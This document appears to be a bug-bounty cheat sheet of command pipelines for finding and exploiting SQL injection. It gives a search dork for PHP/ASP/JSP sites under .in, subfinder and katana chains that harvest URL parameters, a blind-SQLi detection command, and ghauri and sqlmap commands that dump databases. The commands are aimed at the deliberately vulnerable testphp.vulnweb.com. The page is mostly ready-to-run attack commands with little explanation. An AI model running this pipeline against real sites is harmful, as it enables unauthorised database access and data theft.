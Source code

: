 ## Dork

```
site:.in & filetype:php | filetype:asp | filetype:aspx | filetype:jsp | filetype:jspx & intext:"responsible disclosure"
```

## All Parameter Finding

```
subfinder -d "vulnweb.com" -recursive -all -silent | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.all.parameters.txt
```

## SQLi Parameters

```
subfinder -d "vulnweb.com" -recursive -all -silent | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | gf sqli | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.sql.parameters.txt
```

## Blind SQLi Detection

```
bsqli --urls vulnweb.com.sql.parameters.txt --payloads payloads/xor.txt --verbose --save vulnweb.com.detected.sql.parameters.txt
```

## Ghauri DB Dumping

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --confirm --current-db --dbs
```

## SQLMAP DB Dumping

```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --dbs --random-agent --tamper=space2comment --level=2
```
